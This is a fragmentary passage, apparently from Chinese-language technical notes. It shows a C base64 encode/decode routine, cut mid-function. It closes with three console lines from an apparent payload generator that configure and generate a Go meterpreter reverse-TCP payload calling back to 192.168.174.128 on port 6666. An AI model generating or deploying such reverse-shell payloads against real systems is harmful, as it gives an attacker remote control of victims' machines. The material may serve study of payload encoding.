 ```c
    int in_len = 0; // 源字符串长度, 如果in_len不是3的倍数, 那么需要补成3的倍数
    int pad_num = 0; // 需要补齐的字符个数, 这样只有2, 1, 0(0的话不需要拼接, )
    if (inlen % 3 != 0) {
        pad_num = 3 - inlen % 3;
    }
    in_len = inlen + pad_num; // 拼接后的长度, 实际编码需要的长度(3的倍数)

    int out_len = in_len * 8 / 6; // 编码后的长度

    char *p = outdata; // 定义指针指向传出data的首地址

                       //编码, 长度为调整后的长度, 3字节一组
    for (int i = 0; i < in_len; i += 3) {
        int value = *indata >> 2; // 将indata第一个字符向右移动2bit(丢弃2bit)
        char c = base64_alphabet[value]; // 对应base64转换表的字符
        *p = c; // 将对应字符(编码后字符)赋值给outdata第一字节

                //处理最后一组(最后3字节)的数据
        if (i == inlen + pad_num - 3 && pad_num != 0) {
            if (pad_num == 1) {
                *(p + 1) = base64_alphabet[(int)(cmove_bits(*indata, 6, 2) + cmove_bits(*(indata + 1), 0, 4))];
                *(p + 2) = base64_alphabet[(int)cmove_bits(*(indata + 1), 4, 2)];
                *(p + 3) = '=';
            }
            else if (pad_num == 2) { // 编码后的数据要补两个 '='
                *(p + 1) = base64_alphabet[(int)cmove_bits(*indata, 6, 2)];
                *(p + 2) = '=';
                *(p + 3) = '=';
            }
        }
        else { // 处理正常的3字节的数据
            *(p + 1) = base64_alphabet[cmove_bits(*indata, 6, 2) + cmove_bits(*(indata + 1), 0, 4)];
            *(p + 2) = base64_alphabet[cmove_bits(*(indata + 1), 4, 2) + cmove_bits(*(indata + 2), 0, 6)];
            *(p + 3) = base64_alphabet[*(indata + 2) & 0x3f];
        }

        p += 4;
        indata += 3;
    }

    if (outlen != NULL) {
        *outlen = out_len;
    }

    return ret;
}


int base64_decode(const char *indata, int inlen, char *outdata) {

    int ret = 0;
    if (indata == NULL || inlen <= 0 || outdata == NULL ) {
        return ret = -1;
    }
    if (inlen % 4 != 0) { // 需要解码的数据不是4字节倍数
        return ret = -2;
    }

    int t = 0, x = 0, y = 0, i = 0;
    unsigned char c = 0;
```

[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate